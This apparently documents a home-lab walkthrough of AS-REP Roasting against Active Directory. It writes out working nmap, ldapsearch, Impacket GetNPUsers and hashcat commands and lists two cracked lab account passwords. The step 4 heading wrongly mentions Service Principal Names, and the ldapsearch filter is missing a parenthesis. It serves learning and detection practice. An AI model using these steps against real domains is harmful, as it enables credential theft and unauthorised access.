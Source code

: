 # 🧨 Attack Walkthrough: AS-REP Roasting

## 🧠 Overview

AS-REP Roasting is a technique that allows an attacker to retrieve encrypted authentication responses from Active Directory without valid credentials, but only if the target accounts have “Do not require Kerberos pre-authentication” enabled. The attacker can then attempt to crack these responses offline to recover plaintext passwords.
- **Tactic:** Credential Access
- **Technique:** [AS-REP Roasting (T1558.004)](https://attack.mitre.org/techniques/T1558/004/)
- **Objective:** Obtain plaintext passwords of service accounts with weak hashes to gain initial access.

---

## ⚙️ Lab Setup

- **Attacker Machine:** Kali Linux
- **Target Environment:** Windows Active Directory
  - 1x Domain Controller (Windows Server 2019)
  - 2x Windows 10 clients
- **SIEM:** Splunk Enterprise logging DC and endpoint activity

---

## 🚩 Red Team Steps

### 1. Discover Live Hosts on the subnet with Nmap
Identifies which machines are active and available for further reconnaissance.
```
nmap -sn 10.80.80.0/24 
```
![NMAP_SCAN](../assets/AS-REP/RED/1_NMAP_SCAN.png)
### 2. Scan the machines of interest for exposed services and ports
Reveals the Domain Controller and attack surface for the machine.
```
nmap -sV -O 10.80.80.2
```
![NMAP_DOMAIN](../assets/AS-REP/RED/2_NMAP_DOMAIN.png)
### 3. Enumerate Domain Users
The nmap scan would reveal services open to exploitation. In my case, the LDAP server was exposed. I then used ldapsearch to return every entry in the directory, formatted the list and saved it to a txt file.
```
ldapsearch -x -H ldap://10.80.80.2 -b "DC=ad,DC=lab" "(objectClass=user" | grep "sAMAccountName" | sort | cut -d " " -f2 > users.txt
```
![LDAP_SEARCH](../assets/AS-REP/RED/3_LDAP_SEARCH.png)
### 4. Use Impacket's getNPUsers to identify Users with Service Principal Names
This step identifies users who have pre-authentication disabled. These accounts are vulnerable to AS-REP Roasting. The tool will request TGTs and output hashes that can be cracked offline.
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py ad.lab/ -usersfile users.txt -dc-ip 10.80.80.2
```
![GET_NPUSERS](../assets/AS-REP/RED/4_getNPUsers.png)
### 5. Crack the hash using Hashcat and a password list
After retrieving AS-REP hashes, I used Hashcat to crack them offline. These hashes use RC4-HMAC encryption and are compatible with mode 18200 in Hashcat.
```
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
![HASHCAT](../assets/AS-REP/RED/5_HASHCAT.png)

I now have the credentials of two accounts:
- audry.florencia 159357
- mag.auria charles

---

## 🏁 Gaining Initial Access

This phase of the attack demonstrates how an attacker with no existing credentials can gain a foothold in an Active Directory environment by taking advantage of accounts that have Kerberos pre-authentication disabled.

Using tools like ldapsearch, Impacket’s GetNPUsers.py, and Hashcat, I was able to enumerate domain users, identify vulnerable accounts, and crack a user’s password offline. With valid domain credentials, the attacker now has an initial presence inside the network.

This access provides a foundation for post-exploitation steps such as privilege escalation, lateral movement, and further enumeration within the environment.

---




















